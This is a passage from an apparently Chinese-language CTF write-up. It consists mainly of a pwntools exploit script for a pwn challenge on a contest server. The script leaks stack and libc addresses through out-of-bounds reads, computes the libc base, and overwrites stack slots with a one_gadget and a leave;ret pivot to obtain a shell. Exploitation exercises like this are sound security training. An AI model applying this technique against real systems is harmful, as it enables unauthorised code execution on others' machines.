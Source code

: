 ```python
from pwn import *
rdi=0xca3
main=0xB7E
system=0xB36
learet=0xB29
gadget=0x4f302
context.log_level = 'debug'
context.arch = 'amd64'
libc=ELF("./libc-2.27.so")
r=remote("contest.ctf.nefu.edu.cn",33745)
#r=process("./pwn")
#gdb.attach(r)
#pause()
def _read(add):
	r.sendline(b'1')
	r.recvuntil(b"see?\n")
	r.sendline(add)
	recv=r.recv(0x8)
	return u64(recv)
def _write(add,payload):
	r.sendline(b'2')
	r.sendline(add)
	r.recv()
	r.send(payload)
	return
r.recv()
stack_add=_read(b'-4')-0xc0
print(hex(stack_add))

main_add=_read(b'-16')-0x146
print(hex(main_add))
#pause()
read_add=_read(b'-29')-0xE4
print(hex(read_add))
libc_base=read_add-libc.sym["read"]
#pause()
base_add=main_add-main
```

​	有了栈地址和libc基址,我们就可以利用one_garget解题了(我试过system(如果我没记错的话),但是没成功.我觉得execve应该也行,就是更麻烦)

```python
_write(b'0',p64(gadget+libc_base))

_write(b'22',p64(stack_add+0x10-0x8))
_write(b'23',p64(base_add+learet))
r.recv()
r.interactive()
```

##### 2:ez_rop
